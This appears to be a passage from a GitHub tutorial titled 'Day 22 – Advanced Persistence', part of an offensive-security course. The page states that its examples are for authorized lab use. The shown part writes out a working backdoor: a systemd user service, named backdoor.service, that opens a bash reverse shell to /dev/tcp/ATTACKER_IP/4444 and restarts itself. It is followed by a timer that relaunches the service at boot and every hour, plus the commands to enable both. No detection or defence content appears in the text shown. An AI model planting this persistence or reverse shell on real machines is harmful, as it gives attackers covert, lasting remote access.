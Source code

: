 # Day 22 – Advanced Persistence: systemd timers, user services & kernel modules
<img width="1200" height="400" alt="image" src="https://github.com/user-attachments/assets/889f5ffe-e362-4c06-a357-c83ab0bb131b" />

## Objective
Learn advanced persistence techniques attackers use and how defenders can detect and mitigate them. Topics: systemd timers/user services, kernel module loading, rc.local/init scripts, autostart entries, and bootloader/firmware persistence vectors. All examples are for authorized lab use only.

---

## 1️⃣ systemd Units vs Timers
`systemd` provides flexible persistence through unit files and timers. Timers are the `systemd` equivalent of cron with more control and stealth.

### Create a persistent user service
```bash
# Create service in user unit directory
mkdir -p ~/.config/systemd/user
cat > ~/.config/systemd/user/backdoor.service <<'EOF'
[Unit]
Description=User Backdoor Service

[Service]
ExecStart=/bin/bash -lc 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
Restart=always
RestartSec=60
EOF

# Enable and start (user-level)
systemctl --user daemon-reload
systemctl --user enable --now backdoor.service
```

### Create a timer that runs every boot and hourly
```bash
cat > ~/.config/systemd/user/backdoor.timer <<'EOF'
[Unit]
Description=Run backdoor on boot and hourly

[Timer]
OnBootSec=1min
OnUnitActiveSec=1h

[Install]
WantedBy=timers.target
EOF

systemctl --user daemon-reload
systemctl --user enable --now backdoor.timer
```

